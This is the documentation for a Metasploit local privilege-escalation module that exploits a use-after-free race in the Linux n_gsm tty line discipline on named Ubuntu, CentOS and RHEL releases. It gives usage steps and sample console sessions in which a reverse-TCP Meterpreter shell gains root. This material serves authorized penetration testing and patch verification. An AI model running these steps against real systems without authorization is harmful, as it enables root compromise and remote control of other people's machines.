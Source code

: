 ## Vulnerable Application

This module exploits a race condition leading to a use-after-free on
the kmalloc-1024 slab. The bug exists in the `n_gsm` tty line discipline,
created for gsm modems. The race condition results in a UAF on a struct
`gsm_dlci` while restarting the gsm mux.

The target system must have at least two CPU cores.

Bypasses for SMEP, SMAP and KASLR are included.

This module has been tested successfully on

* Ubuntu 20.04 Server (x86_64)
* Ubuntu 18.04 Server (x86_64)
* CentOS 8 Server (x86_64)
* RHEL 8 Server (x86_64)


## Verification Steps

1. Start `msfconsole`
2. Get a session
3. `use exploit/linux/local/gsm_multiplex_priv_esc`
4. `set SESSION [SESSION]`
5. `check`
6. `run`
7. You should get a new *root* session


## Options

### WritableDir

A writable directory file system path. (default: `/tmp`)

### COMPILE

Options: `Auto` `True` `False` (default: `True`)

Whether the exploit should be live compiled with `gcc` on the target system,
or uploaded as a pre-compiled binary.

`Auto` will first determine if `gcc` is installed to compile live on the system,
and fall back to uploading a pre-compiled binary.

Currently only `True` is supported.

## Scenarios

```
msf6 > use exploit/linux/local/gsm_multiplex_priv_esc
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/local/gsm_multiplex_priv_esc) > check 
[+] System architecture x64 is supported
[+] Ubuntu running Linux 4.15.0-20-generic is vulnerable.
[+] System has 4 CPU cores
[*] The target appears to be vulnerable.
msf6 exploit(linux/local/gsm_multiplex_priv_esc) >
```

```
msf6 > use exploit/linux/local/gsm_multiplex_priv_esc
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/local/gsm_multiplex_priv_esc) > run
[*] Running automatic check ("set AutoCheck false" to disable)
[+] System architecture x64 is supported
[+] Ubuntu running Linux 4.15.0-20-generic is vulnerable.
[+] System has 4 CPU cores
[+] The target appears to be vulnerable.
[*] Inlining the payload inside the exploit.
[*] Live compiling exploit on system...
[*] Launching exploit
[*] Sending stage (24772 bytes) to 192.168.138.192
[*] Meterpreter session 2 opened (192.168.138.118:4444 -> 192.168.138.192:45816) at 2024-02-20 23:45:39 +0000
meterpreter > getuid 
Server username: root
meterpreter > :)
```

```
msf6 > use exploit/linux/local/gsm_multiplex_priv_esc
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/local/gsm_multiplex_priv_esc) > set payload linux/x64/meterpreter_reverse_tcp
payload => linux/x64/meterpreter_reverse_tcp
msf6 exploit(linux/local/gsm_multiplex_priv_esc) > run
[*] Running automatic check ("set AutoCheck false" to disable)
[+] System architecture x64 is supported
[+] Ubuntu running Linux 4.15.0-20-generic is vulnerable.
[+] System has 4 CPU cores
[+] The target appears to be vulnerable.
[*] Using a payload binary.
[*] Writing '/tmp/.KQ5ubQ4P3' (1068672 bytes) ...
[*] Live compiling exploit on system...
[*] Launching exploit
[*] Sending stage (24772 bytes) to 192.168.138.192
[*] Meterpreter session 2 opened (192.168.138.118:4444 -> 192.168.138.192:45910) at 2024-02-20 23:47:54 +0000
meterpreter > getuid 
Server username: root
meterpreter > :)
```
